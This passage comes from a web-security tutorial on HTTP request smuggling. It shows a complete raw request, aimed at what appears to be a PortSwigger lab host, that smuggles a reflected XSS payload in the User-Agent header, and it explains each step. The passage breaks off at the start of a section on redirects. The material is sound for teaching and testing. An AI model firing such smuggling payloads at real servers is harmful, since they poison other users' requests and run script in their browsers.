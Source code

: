 #### Using HTTP request smuggling to exploit reflected XSS

HTTP Request Smuggling can be leveraged to exploit web pages vulnerable to **Reflected XSS**, offering significant advantages:

- Interaction with the target users is **not required**.
    
- Allows the exploitation of XSS in parts of the request that are **normally unattainable**, like HTTP request headers.
    

In scenarios where a website is susceptible to Reflected XSS through the User-Agent header, the following payload demonstrates how to exploit this vulnerability:


```
POST / HTTP/1.1
Host: ac311fa41f0aa1e880b0594d008d009e.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Cookie: session=ac311fa41f0aa1e880b0594d008d009e
Transfer-Encoding: chunked
Connection: keep-alive
Content-Length: 213
Content-Type: application/x-www-form-urlencoded

0

GET /post?postId=2 HTTP/1.1
Host: ac311fa41f0aa1e880b0594d008d009e.web-security-academy.net
User-Agent: "><script>alert(1)</script>
Content-Length: 10
Content-Type: application/x-www-form-urlencoded

A=
```

This payload is structured to exploit the vulnerability by:

1. Initiating a `POST` request, seemingly typical, with a `Transfer-Encoding: chunked` header to indicate the start of smuggling.
    
2. Following with a `0`, marking the end of the chunked message body.
    
3. Then, a smuggled `GET` request is introduced, where the `User-Agent` header is injected with a script, `<script>alert(1)</script>`, triggering the XSS when the server processes this subsequent request.
    

By manipulating the `User-Agent` through smuggling, the payload bypasses normal request constraints, thus exploiting the Reflected XSS vulnerability in a non-standard but effective manner.

#### Exploiting On-site Redirects with HTTP Request Smuggling

Applications often redirect from one URL to another by using the hostname from the `Host` header in the redirect URL. This is common with web servers like Apache and IIS. For instance, requesting a folder without a trailing slash results in a redirect to include the slash:
